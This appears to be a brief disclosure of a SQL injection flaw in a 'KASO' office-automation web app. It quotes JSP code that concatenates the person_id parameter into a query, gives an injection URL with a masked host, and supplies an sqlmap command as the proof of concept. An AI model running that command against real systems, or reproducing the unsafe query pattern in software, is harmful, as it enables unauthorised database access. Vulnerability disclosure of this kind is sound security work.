 # KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id
Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql

![Uploading image.png…]()

